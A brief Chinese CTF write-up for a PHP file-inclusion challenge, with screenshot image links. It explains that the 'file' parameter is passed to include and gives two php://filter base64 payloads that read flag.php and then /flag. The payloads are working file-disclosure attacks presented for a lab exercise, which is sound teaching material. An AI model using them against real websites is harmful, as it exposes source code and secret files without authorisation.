





分析源码

get传参file

并且判断file的0-3位是否为：php

include文件包含

提示存在flag.php

利用php伪协议读取flag.php

构造payload：

?file=php://filter/read=convert.base64-encode/resource=flag.php

 

 

 

 

 

 

 

 

提示真正的flag在/flag

 

重新构造payload：

?file=php://filter/read=convert.base64-encode/resource=/flag

 

 

 

 

 